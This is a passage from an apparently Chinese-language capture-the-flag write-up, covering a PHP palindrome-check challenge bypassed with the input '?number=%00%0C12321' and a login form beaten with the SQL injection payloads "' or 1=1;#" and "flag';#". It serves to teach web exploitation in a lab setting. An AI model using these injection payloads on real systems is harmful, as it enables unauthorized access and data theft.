 ```php
else {
    $value1 = intval($req["number"]);
    $value2 = intval(strrev($req["number"]));
    if($value1!=$value2) {
        $info="no, this is not a palindrome number!";
        echo  $info;
    }
    else {
        if(is_palindrome_number($req["number"])) {
            $info = "nice! {$value1} is a palindrome number!";
            echo  $info;
        }
        else {
            $info=$flag;
            echo "Your flag is: ".$info;
        }
    }
}
?>
```

分析后可以构造出 `?number=%00%0C12321`

# 简单的 SQL 注入

> 尝试一次简单的 SQL 注入，flag 就藏在表里！

我们试着输入用户名 admin，密码 123456，然后看到：

```
query: select * from user_tab where user='admin' and pw='123456' 
```

直接注入

```
' or 1=1;#
```

看到

```
query: select * from user_tab where user='' or 1=1;#' and pw=''
Logged in!
your username is: admin
your password is: fsaoaigubbwouibiaewrawe 
```

所以直接注入

```
flag';#
```

# 寻找特权程序
